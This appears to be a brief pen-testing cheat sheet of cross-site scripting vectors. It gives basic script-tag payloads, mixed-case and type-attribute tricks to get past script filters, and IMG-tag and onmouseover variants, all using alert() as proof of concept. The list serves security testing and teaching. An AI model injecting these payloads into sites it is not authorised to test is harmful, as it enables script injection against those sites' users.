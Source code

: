 # Examples

This is a good list:

https://www.linkedin.com/pulse/20140812222156-79939846-xss-vectors-you-may-need-as-a-pen-tester

## No security
`<script>alert(1)</script>`


Imagine that the server sanitizes `<script>`. To bypass that we can use:
`<SCrIpt>alert(2)</ScRiPt>`
`<script type=text/javascript>alert(2)</script>`

### Using the IMG-tag
```
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=javascript:alert("XSS")>
<IMG onmouseover="alert('xxs')">
```


### Onmouseover
```
<a onmouseover="alert(2)">d</a>
```
